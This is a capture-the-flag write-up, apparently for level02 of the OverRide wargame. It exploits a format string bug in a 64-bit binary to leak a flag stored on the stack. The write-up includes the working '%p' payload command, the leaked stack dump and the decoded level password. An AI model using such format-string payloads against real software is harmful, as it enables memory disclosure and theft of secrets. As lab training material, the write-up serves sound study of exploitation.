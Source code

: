 # Format String Exploit

see source.c

## Analysis

First 64bit elf file !
For this one we instantly notice a format string exploit because of the call of printf with a variable. We also notice that the flag is on the stack inside the variable 'flag' so we could just print all the stack and hopefully see our flag !
First thing to do is locate the flag bytes on the stack, so the first thing we did was to print 'B' as password since the flag is located after the password input on the stack. Then just print everything as hexa and translate bytes into char to get the flag !

(another way to do this is to get the pointer of flag and set it on B, then print '%s' on the flag pointer.)

```
level02@OverRide:~$ (python -c "print('%p.' * 20 + '%lx %lx %lx %lx %lx %lx')"; python -c "print('B' * 100)") | $PWD/level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4c0.(nil).0x42.0x2a2a2a2a2a2a2a2a.0x2a2a2a2a2a2a2a2a.0x7fffffffe6b8.0x1f7ff9a08.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x4242424242424242.0x100424242.0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!
level02@OverRide:~$ echo -e '\x48\x68\x37\x34\x52\x50\x6e\x75\x51\x39\x73\x61\x35\x4a\x41\x45\x58\x67\x4e\x57\x43\x71\x7a\x37\x73\x58\x47\x6e\x68\x35\x4a\x35\x4d\x39\x4b\x66\x50\x67\x33\x48'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
